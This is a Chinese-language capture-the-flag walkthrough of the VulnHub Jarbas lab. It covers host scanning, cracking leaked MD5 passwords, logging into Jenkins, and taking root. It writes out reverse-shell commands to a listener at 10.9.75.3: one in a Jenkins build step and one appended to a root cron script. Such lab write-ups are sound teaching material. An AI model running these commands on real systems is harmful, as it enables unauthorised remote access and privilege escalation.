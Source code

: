 > 文档说明：https://www.vulnhub.com/entry/jarbas-1,232/
>
> 靶机下载：**[Download (Mirror)](https://download.vulnhub.com/jarbas/Jarbas.zip)**: 

## 信息收集

### 主机发现

扫描C段

```
sudo nmap -sn 10.9.75.0/24
```

![image-20231125131716854](./imgs/image-20231125131716854.png)

### 端口扫描

```
sudo nmap --min-rate 10000 10.9.75.10
```

![image-20231125131847664](./imgs/image-20231125131847664.png)

详细扫描服务版本，系统

```bath 
sudo nmap -sT -sV -O -p 22,80,3306,8080 10.9.75.10 
```

![image-20231125132007149](./imgs/image-20231125132007149.png)

### 目录爆破

```bash
dirsearch -u http://10.9.75.10 -i 200  
```

![image-20231125132323184](./imgs/image-20231125132323184.png)

## 漏洞探测

### whatweb

访问80端口

![image-20231125132425330](./imgs/image-20231125132425330.png)

```bash
whatweb http://10.9.75.10
```



![image-20231125133245051](./imgs/image-20231125133245051.png)

并没有识别到类似的CMS内容管理系统，

继续访问`access.html`发现了类似`用户名:加密后的密码`的东西

![image-20231125132945210](./imgs/image-20231125132945210.png)

###  hash-identifier 

可以使用工具来验证加密类型

```bash
hash-identifier "5978a63b4654c73c60fa24f836386d87"  
```



![image-20231125133052923](./imgs/image-20231125133052923.png)

拿去在线网站进行[md5解密](https://www.somd5.com/)



![image-20231125133516690](./imgs/image-20231125133516690.png)

![image-20231125133605822](./imgs/image-20231125133605822.png)

![image-20231125133636880](./imgs/image-20231125133636880.png)

> `tiago:italia99`
>
> `trindade:marianna`
>
> `eder:vipsu`

访问8080端口

![image-20231125134737788](./imgs/image-20231125134737788.png)

### whatweb

```bash
whatweb http://10.9.75.10:8080
```

![image-20231125134830353](./imgs/image-20231125134830353.png)

指纹识别出一个`Jenkins`的CMS管理系统

尝试使用上面解密出来的密码进行登陆

使用`eder:vipsu`登陆成功！

![image-20231125135041152](./imgs/image-20231125135041152.png)

![image-20231125135104467](./imgs/image-20231125135104467.png)

新建一个任务

![image-20231125135842524](./imgs/image-20231125135842524.png)

选择第一个自由风格软件项目就可以，然后往下翻，点击确定

点击`Build构建`

![image-20231125135948173](./imgs/image-20231125135948173.png)

由于目标系统是linux系统，所以选择第二个`execute shell`

```bash
/bin/bash >& /dev/tcp/10.9.75.3/6868 0>&1

#反弹到kali上
```

点击应用，然后点击保存

![image-20231125140121483](./imgs/image-20231125140121483.png)

这个时候kali先监听`6868`端口

```bash
nc  -lvvp 6868  
```

回到页面上点击立即构建

![image-20231125140412821](./imgs/image-20231125140412821.png)

就反弹到kali机器上了

![image-20231125140529852](./imgs/image-20231125140529852.png)

页面上会显示有一个任务正在运行

![image-20231125140547563](./imgs/image-20231125140547563.png)

我们拿到shell是没有回显的，可以通过`python`获取显示shell

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20231125140911530](./imgs/image-20231125140911530.png)

最后再计划任务里找到了以`root`运行 的程序

![image-20231125141047389](./imgs/image-20231125141047389.png)

查看文件内容

```bash
cat /etc/script/CleaningScript.sh
```



![image-20231125141328159](./imgs/image-20231125141328159.png)

可以在里面添加反弹shell，

```bash
echo "/bin/bash >& /dev/tcp/10.9.75.3/6869 0>&1" >> /etc/script/CleaningScript.sh
```

![image-20231125141432284](./imgs/image-20231125141432284.png)

kali监听`6869`端口，等待反弹

![image-20231125141555084](./imgs/image-20231125141555084.png)

**Jenkins** 的漏洞利用方式有很多，可以自行去网上查阅相关资料


